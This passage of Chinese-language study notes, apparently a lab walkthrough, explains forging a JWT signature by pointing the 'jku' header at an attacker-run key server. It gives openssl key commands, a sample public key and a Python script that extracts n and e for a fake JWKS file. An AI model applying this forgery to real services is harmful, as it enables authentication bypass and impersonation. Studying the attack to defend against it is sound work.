 
openssl pkcs8命令：

```sh
openssl pkcs8 [-topk8] [-inform PEM|DER] [-outform PEM|DER] [-in filename] [-passin arg] [-out filename] [-passout arg] [-noiter] [-nocrypt] [-nooct] [-embed] [-nsdb] [-v2 alg] [-v2prf alg] [-v1 alg] [-engine id]
```

具体可参考：https://www.openssl.org/docs/man1.0.2/man1/openssl-pkcs8.html





##### 伪造JWS

```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAyBoYKQHzkKJQQQGdHubO
Cy6VwQdrr2Pn269ovuZ9Y6155pJCskXApCHG2qV7yIXpHz1XrDkFe8ZmTiPzPtQC
u220HFrH3KRkTfECzGkT4LJB8jYySL18Ih7zf6A+wpCVCDYEZWXlyuwkqdqRzBRz
F8kxZgFzVwRfeECF8RnO1vPVMZ9qNX7i1+u6bA83LNjYQCSNZHo+Y4K3deb+MK7l
zcSnKsw2EQvuaUJKEExFoFeruXoaAsouwUMRERr/pQPxvk+6voWyTfPJiNKxI0JD
oNdsYNj0JPWqAnOcsF+G2UGDmBJ7UhBxKutBt7OKAUWbOpZYd9YkmT5rL3hAeCia
YwIDAQAB
-----END PUBLIC KEY-----
```

将产生的public key完整得粘贴到公钥处

![image-20210331203210960](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210331203210960.png)



私钥也是一样

![image-20210331203427137](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/image-20210331203427137.png)



然后修改上面jku的地址：

```
http://192.170.138.2:8080/issue
```

在右方就可以得到伪造好的JWS



##### 搭建恶意服务器

根据jwks.json文件的格式：

![0_G13gj8l5elTJGins](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/0_G13gj8l5elTJGins.png)

我们需要修改n和e

利用如下脚本：

```python
from Crypto.PublicKey import RSA

fp = open("publickey.crt", "r")
key = RSA.importKey(fp.read())
fp.close()

print "n:", hex(key.n)
print "e:", hex(key.e)
```
